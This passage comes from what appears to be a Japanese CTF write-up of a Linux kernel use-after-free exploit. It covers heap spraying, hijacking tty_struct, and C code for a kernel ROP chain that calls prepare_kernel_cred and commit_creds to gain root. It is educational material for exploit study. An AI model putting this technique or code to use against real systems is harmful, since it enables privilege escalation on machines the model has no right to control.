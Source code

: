 
何回かやってみると、keyのスプレーの際に`filp`とか`worker_pool`とかいう`kmalloc-256`サイズのキャッシュへのoverwriteが検知されて落ちているみたいです。おそらくですが、`poll_list`をスプレーするスレッドを立ち上げてからすぐに`user_key_payload`をfreeさせるようにしていたため、UAFしているオブジェクトに`poll_list`が確保される前に`user_key_payload`がfreeされてしまい、`seq_operations`のfreeと相まってdouble freeになってヒープが崩壊してしまったせいなんじゃないかと思います。そこで、スレッドを立ち上げた後に少しだけsleepしてみると、とりあえずこのエラーは出なくなりました。**必要なguessingは、必要です。**

![](https://hackmd.io/_uploads/rkguV20ej.png)

dead beef、良さそう！続いて、deadbeefをちゃんと先程leakした`tty_struct`のアドレスにしてUAFし、その後で`0x1000`サイズの`user_key_payload`をスプレーすることで全て`0x5401`(`tty_struct`のmagic number)で埋めてみると:

![](https://hackmd.io/_uploads/HkYg2gybs.png)

うんうん、良さそう。`tty_struct.ops`も一緒に`0x5401`に書き換えたので、ちゃんと落ちてくれてますね！RIPが取れました。

# get root by kROP on `tty_struct` itself

TTYへの`ioctl()`によって、ジャンプ直後のレジスタの値は以下のようになります:

![](https://hackmd.io/_uploads/H1lpKW1Zi.png)

`RBX, RCX, RSI`は第2引数で4byte、`RDX, R8, R12`は第3引数で8byteだけ任意に指定できます。`RDI`と`RBP`と`R14`は`tty_struct`自身を指します。stack pivotをするために、`push RXX, JMP RYY, POP RSP`のようなことをしたいのですが、`RSI`達は4byteしか指定できないため使うことはできません。
さて、みなさんも覚えておきましょう、**`tty_struct`はまじでROPしやすいです**:

```payload.c
    char *key_payload = malloc(0x1000);
    ulong *buf = (ulong*)key_payload;
    buf[0] = 0x5401; // magic, kref (later `leave`ed and become RBP)
    buf[1] = KADDR(0xffffffff8191515a); // dev (later become ret addr of `leave` gadget, which is `pop rsp`)
    buf[2] = km1024_leaked + 0x50 + 0x120; // driver (MUST BE VALID) (later `pop rsp`ed)
    buf[3] = km1024_leaked + 0x50; // ops

    ulong *ops = (ulong*)(key_payload + 0x50);
    for (int ix = 0; ix != 0x120 / 8; ++ix) { // sizeof tty_operations
      ops[ix] = KADDR(0xffffffff81577609); // pop rsp
    }

    ulong *rop = (ulong*)((char*)ops + 0x120);
    *rop++ = ...

    assert((ulong)rop - (ulong)key_payload < 516);
```

まず、`ops`を書き換えて`tty_struct + 0x50`を指すようにします。この領域に偽のvtableとして`leave`するガジェットのアドレスを入れておきます。すると、上で書いたように`RBP`には`tty_struct`自身のアドレスが入っているため、`leave`すると`tty_struct`のアドレスが`RSP`に入ります。この状態で`RET`すると、`tty_struct + 8`に入っているアドレスに戻ることになります。ここは`tty_struct.dev`ポインタであり、壊れてても良い値なので、ここに`tty_struct + 0x50 + 0x120`のアドレスを入れておきます。あとは、`+0x50 + 0x120`の領域に好きなROPを組んでおくだけです。本当に、ROPのためにある構造体と言っても過言ではありません。偶然magic numberもvalidでなくてはいけないポインタ(`+0x10: driver`)を壊すことなくいけます。奇跡の構造体です。
ROP自体はこんな感じ:

```rop.c
  *rop++ = KADDR(0xffffffff81906510); // pop rdi
  *rop++ = 0;
  *rop++ = KADDR(0xffffffff810ebc90); // prepare_kernel_cred

  *rop++ = KADDR(0xffffffff812c32a9); // pop rcx (to prevent later `rep`)
  *rop ++ = 0;
  *rop++ = KADDR(0xffffffff81a05e4b); // mov rdi, rax; rep movsq; (simple `mov rdi, rax` not found)
  *rop++ = KADDR(0xffffffff810eba40); // commit_creds

  *rop++ = KADDR(0xffffffff81c00ef0 + 0x16); // swapgs_restore_regs_and_return_to_usermode + 0x16
                                             // mov rdi,rsp; mov rsp,QWORD PTR gs:0x6004; push QWORD PTR [rdi+0x30]; ...
  *rop++ = 0;
```